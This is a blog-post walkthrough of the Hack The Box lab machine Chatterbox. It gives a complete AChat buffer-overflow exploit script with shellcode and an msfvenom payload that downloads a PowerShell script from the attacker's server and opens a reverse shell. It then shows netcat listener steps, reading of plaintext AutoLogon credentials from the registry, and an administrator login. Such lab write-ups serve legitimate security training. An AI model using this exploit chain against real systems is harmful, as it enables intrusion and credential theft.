 ```yaml
---
layout: post
title: "HTB: Chatterbox Walkthrough"
---
```


<img src="{{ '/assets/images/chatterbox-icon.png' | relative_url }}" alt="Chatterbox Icon" />

# intro

The goal of this post to provide an updated version of Hack The Boxes machine, [Chatterbox](https://app.hackthebox.com/machines/123) (I am not sure if any one else has made a similar post but more than one doesn't hurt). 

There where a few trouble areas when doing this machine so my goal is to help anyone who may have ran into similar issues themsleves. I followed [0xdf's](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) walkthrough and there seems to be seem dated steps that could be updated. I intend to correct these dated issues with this post.

Let's dive in! 

## reconnaissance

As usual with any CTF-type machine, we are going to start out with an **nmap** scan:

```bash
t3lesph0re@neptune:~$ nmap -p- 10.10.10.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 18:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.030s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```

The **nmap** scan shows that there are two _non-default_ ports outside of the default top 1000 ports that are usually open, port `9255` and `9256`. 

### AChat on port 9256

There is a service called **AChat** running on port `9255` and `9256`. There is a known [buffer overflow](https://www.exploit-db.com/exploits/36025) that affects the version on AChat running on our attack machine. The exploits is sent to port `9256 / UDP`. 

## initial exploit 

Because this is a windows host, we can use [Nishang's](https://github.com/samratashok/nishang) **Invoke-PowerShellTcp.ps1** script to get a shell. 

We will create a payload with **msfvenom** and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run **Invoke-PowerShellTcp.ps1** and attempt to establish a reverse shell.

This is the **msfvenom** command to generate the shell code that we will use in the Python script:

```bash
t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

This will save a **Python-formatted representation** of the generated payload to the file **shellcode**. When you output this file you will have your encoded shell that you will need to put into the Exploit-DB script (see below):

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# REPLACE THIS w/ Shellcode 
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"
# REPLACE THIS w/ Shellcode ^

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # UPDATED IP POINTING TO TARGET

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Once you have updated this script, we will need 3 seperate terminals: python HTTP server, listener, and the exploit script. 

1. Start the HTTP python server:

```bash
t3lesph0re@neptune:~$ python3 -m http.server 80
```

2. Start the listener:

```bash
t3lesph0re@neptune:~$ nc -lnvp 8082
```

3. Run the Python script:

Because the script shebang shows **#!/usr/bin/python**, we will use **Python2**:

```bash
t3lesph0re@neptune:~$ python2 36025
```

The Python script will run and you will see that the **Invoke-PowerShellTcp.ps1** was grab from the Python HTTP server `10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`. Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user **chatterbox\alfred**. 

<figure>
  <img src="{{ '/assets/images/chatterbox-revshell.png' | relative_url }}" alt="Chatterbox Reverse Shell" />
  <figcaption>Reverse Shell as user Alfred</figcaption>
</figure>

## privilege escalation to admin

From here we can use our low level user shell to enumerate the AutoLogon credentials:

```powershell
PS C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
```

Here we can see that the _DefaultPassword_ **Welcome1!** is in plaintext. 

Using **winexe** we can login using this password for the user **administrator** to grab the final flag of the challenge! 

```bash
t3lesph0re@neptune:~$ winexe -U 'administrator%Welcome1!' //10.10.10.74 cmd.exe
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

I hope this was helpful!
 
# end 